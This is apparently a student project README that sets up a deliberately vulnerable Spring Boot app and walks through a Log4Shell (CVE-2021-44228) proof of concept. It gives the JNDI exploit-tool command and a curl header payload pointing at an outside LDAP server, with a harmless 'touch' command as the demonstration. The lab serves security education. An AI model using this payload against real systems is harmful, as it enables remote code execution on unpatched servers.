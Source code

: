 # CAP-6135 FinalProject Log4Shell Vulnerability - Exploitation POC (CVE-2021-44228)

## Contents

This repository contains a sample Spring Boot web application vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## Dependencies

* Log4j 2.14.1
* JDK 1.8.0_181

## Prerequisites

* Docker

## Running the application

```bash
$ docker build . -t vulnerable
$ docker run -p 9090:8080 --name vulnerable --rm vulnerable
```

To test the application is up and running, go to a browser and enter the local ip and the port chosen:

![](./sc_1.png)

## Pre-Exploitation

To breach the vulnerable app, we used the great exploitation tool created by @welk1n to test vulnerabities [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

*Note: Latest release can be found [here](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) or [here](https://github.com/lumalav/CAP6135_FinalProject/blob/main/jndi-exploit/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)* 

We run the exploitation tool and set it up with a 'malicious' command

```bash
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hacked"
```

After executing the previous line, the tool will give us the endpoint that the vulnerable application should call

![](./sc_2.png)

## Exploitation

Now, we just need to call the app and introduce the malicious ldap server endpoint as an [HTTP Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

```bash
#1. Notice that we are including the endpoint given by the exploitation tool in the previous step (vqwfzl)
#2. The name of the header does not matter because the app will log all the headers.

$ curl localhost:9090 -H 'Hack: ${jndi:ldap://192.168.86.220:1389/vqwfzl}'
```

At this point the vulnerable app, logged all the headers using the vulnerable version of log4j and triggered the ldap server that is running under the exploitation tool which ultimately executed the given command.

## Confirmation

```bash
$ docker exec vulnerable ls /tmp

...
hacked
...
```

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/

https://github.com/welk1n/JNDI-Injection-Exploit

https://github.com/christophetd/log4shell-vulnerable-app

